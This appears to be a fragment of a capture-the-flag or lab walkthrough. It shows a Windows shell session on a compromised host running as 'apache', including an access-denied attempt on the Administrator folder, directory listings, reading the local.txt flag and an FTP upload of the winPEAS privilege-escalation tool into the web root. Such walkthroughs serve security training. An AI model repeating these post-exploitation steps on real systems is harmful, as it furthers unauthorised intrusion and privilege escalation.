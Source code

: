 C:\Users>cd Administrator
Access is denied.

C:\Users>cd apache

C:\Users\apache>dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Users\apache

11/08/2011  05:34 AM    <DIR>          .
11/08/2011  05:34 AM    <DIR>          ..
11/08/2011  05:34 AM    <DIR>          Contacts
07/09/2020  11:05 AM    <DIR>          Desktop
11/08/2011  05:34 AM    <DIR>          Documents
11/08/2011  05:34 AM    <DIR>          Downloads
11/08/2011  06:02 AM    <DIR>          Favorites
11/08/2011  05:34 AM    <DIR>          Links
11/08/2011  05:34 AM    <DIR>          Music
11/08/2011  05:34 AM    <DIR>          Pictures
11/08/2011  05:34 AM    <DIR>          Saved Games
11/08/2011  05:34 AM    <DIR>          Searches
11/08/2011  05:34 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)   6,031,761,408 bytes free

C:\Users\apache>cd desktop

C:\Users\apache\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Users\apache\Desktop

07/09/2020  11:05 AM    <DIR>          .
07/09/2020  11:05 AM    <DIR>          ..
10/20/2025  08:53 AM                34 local.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,031,761,408 bytes free

C:\Users\apache\Desktop>type local.txt
69b3aef4616ef036f66bcf246309510f

ftp> put winPEASany.exe 
local: winPEASany.exe remote: winPEASany.exe
229 Entering Extended Passive Mode (|||2128|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************|  9933 KiB    2.79 MiB/s    00:00 ETA
226 Closing data connection.
10171904 bytes sent in 00:03 (2.76 MiB/s)

C:\wamp\www>dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

